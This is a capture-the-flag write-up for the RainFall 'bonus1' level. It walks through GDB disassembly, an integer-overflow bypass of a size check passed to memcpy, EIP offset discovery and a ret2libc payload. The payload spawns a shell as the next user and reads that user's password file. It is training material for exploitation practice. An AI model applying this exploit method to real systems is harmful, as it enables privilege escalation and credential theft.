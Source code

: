# Bonus1

First step - testing the program

	$ ./bonus1
	Segmentation fault (core dumped)
	$ ./bonus1 coucou
	$ ./bonus1 coucou coucou

The program segfault without parameters

Start in GDB

	(gdb)$ pdisas main
	Dump of assembler code for function main:
	   0x08048424 <+0>:		push   ebp
	   0x08048425 <+1>:		mov    ebp,esp
	   0x08048427 <+3>:		and    esp,0xfffffff0
	   0x0804842a <+6>:		sub    esp,0x40
	   0x0804842d <+9>:		mov    eax,DWORD PTR [ebp+0xc]
	   0x08048430 <+12>:	add    eax,0x4
	   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]
	   0x08048435 <+17>:	mov    DWORD PTR [esp],eax
	   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
	   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
	   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
	   0x08048446 <+34>:	jle    0x804844f <main+43>
	   0x08048448 <+36>:	mov    eax,0x1
	   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
	   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]
	   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]
	   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x0804845d <+57>:	add    eax,0x8
	   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
	   0x08048462 <+62>:	mov    edx,eax
	   0x08048464 <+64>:	lea    eax,[esp+0x14]
	   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
	   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
	   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
	   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
	   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
	   0x08048480 <+92>:	jne    0x804849e <main+122>
	   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
	   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
	   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
	   0x08048499 <+117>:	call   0x8048350 <execl@plt>
	   0x0804849e <+122>:	mov    eax,0x0
	   0x080484a3 <+127>:	leave
	   0x080484a4 <+128>:	ret
	End of assembler dump.

Lot of interesting things here

- memcpy call, we can overflow it
- a call to execl with parameters : execl("/bin/sh", "sh", 0)

Many conditions for continue the program :

First, atoi on the param and condition if the result is <= 9

But after, the param need to be equal to 0x574f4c46. We can't pass the condition for access the execl

We will exploit the memcpy for overflow and try a ret2libc wth "system" because there is the string "/bin/sh" in the program

Search how we can overwrite EIP

memcpy using an unsigned int (size_t) as parameter

	void *memcpy(void *dest, const void *src, size_t n)

We can put a negative number for pass the first condition but overflow the unsigned int and become positive when the "nb*4" is applied

	0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
	0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
	0x08048470 <+76>:	mov    DWORD PTR [esp],eax
	0x08048473 <+79>:	call   0x8048320 <memcpy@plt>

Put a breakpoint on main+79 for check the state of ECX, where is stored our input*4

UINT_MAX is 4294967295, / 4 is 1073741823

try with -1073741823


	(gdb) r -1073741823 coucou
	r -1073741823 coucou

	(gdb) p $ecx
	$1 = 4

ok, the result of input*4 is 4, so we passed 1... If we continue the program -> no segfault


let's add more than 10 (10*4) for overflow the buffer[40], -1073741823 - 20


	(gdb)$ r -1073741803 coucou
	Breakpoint 1, 0x08048473 in main ()

	(gdb)$ p $ecx
	$16 = 84

	(gdb-peda)$ c
	Continuing.

	Program received signal SIGSEGV, Segmentation fault.

We have the segfault, let's try with a pattern

	(gdb) r -1073741803 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
	Starting program: /home/user/bonus1/bonus1 -1073741803 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

	Program received signal SIGSEGV, Segmentation fault.
	0x4f4f4f4f in ?? ()

	(gdb) i r
	eax            0x0	0
	ecx            0x55555555	1431655765
	edx            0xbffff588	-1073744504
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff570	0xbffff570
	ebp            0x4e4e4e4e	0x4e4e4e4e
	esi            0x0	0
	edi            0x0	0
	eip            0x4f4f4f4f	0x4f4f4f4f
	eflags         0x210287	[ CF PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

EIP was overwritten by `0x4f4f4f4f` (OOOO). The offset start at 56


Now, for do a ret2libc attack, we need the system address, and the address of the string "/bin/sh"

	0x08048482 <+94>:	movl   $0x0,0x8(%esp)
	0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
	0x08048492 <+110>:	movl   $0x8048583,(%esp)
	0x08048499 <+117>:	call   0x8048350 <execl@plt>

	(gdb) x/s 0x8048583
	0x8048583:	 "/bin/sh"

The address of "/bin/sh" is "0x8048583"

	(gdb) r
	Starting program: /home/user/bonus1/bonus1

	Program received signal SIGSEGV, Segmentation fault.
	0xb7e601b0 in ?? () from /lib/i386-linux-gnu/libc.so.6

	(gdb) info function system
	All functions matching regular expression "system":

	Non-debugging symbols:
	0xb7e6b060  __libc_system
	0xb7e6b060  system
	0xb7f49550  svcerr_systemerr

The address of system is "0xb7e6b060"

Build the payload

	(B * 56) + "EIP = system address" + "RET = JUNK" + "/bin/sh address"

	bonus1@RainFall:~$ ./bonus1 -1073741803 $(python -c 'print "B"*56+"\x60\xb0\xe6\xb7"+"JUNK"+"\x83\x85\x04\x08"')
	$ whoami
	bonus2
	$ cat ~bonus2/.pass

Good!
